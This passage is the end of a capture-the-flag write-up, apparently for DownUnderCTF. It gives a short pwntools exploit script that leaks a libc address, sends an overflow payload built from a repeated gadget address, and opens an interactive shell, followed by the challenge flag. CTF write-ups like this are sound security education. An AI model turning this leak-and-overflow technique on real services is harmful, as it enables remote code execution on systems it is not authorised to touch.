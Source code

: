 ```python
print(io.recvuntil(b'Your magic number is: '))
libc.address = int(io.recvline(), 16) - 0x8d4d3
print(io.recv())
payload = p64(libc.address+0x4f432)*25 + 6*b'\0\0\0\0\0\0\0\0' +b'BBBBBBB'
io.sendline('256')
io.sendline(payload)
print(io.recv())
io.interactive()
```
Flag: `DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}`

Thanks for reading my boring writeup, have a good day fellas =]]